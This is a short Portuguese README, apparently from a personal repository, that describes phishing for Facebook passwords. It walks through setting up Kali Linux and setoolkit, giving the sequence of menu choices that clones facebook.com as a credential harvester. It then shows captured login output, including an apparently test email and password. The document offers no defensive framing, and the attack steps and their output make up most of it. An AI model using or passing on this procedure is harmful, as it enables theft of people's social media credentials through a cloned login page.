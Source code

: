 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

- POSSIBLE USERNAME FIELD FOUND: skip_api_login~
- PARAM: signed_next=
- PARAM: trynum=1
- PARAM: timezone=180
- PARAM: lgndim=eyJ3IjogMTkyMCwgImgiOiAxMDgwLCAiYXYiOiAxOTIwfQ
- PARAM: lgnrnd=132556_dsFF
- PARAM: lgnjs=4019581468

- POSSIBLE USERNAME FIELD FOUND: email=marcosteste@hotmail.com
- POSSIBLE PASSWORD FIELD FOUND: pass=testeste

- PARAM: prefill_contact_point=
- PARAM: prefill_source=
- PARAM: prefill_type=1
- PARAM: first_prefill_source=
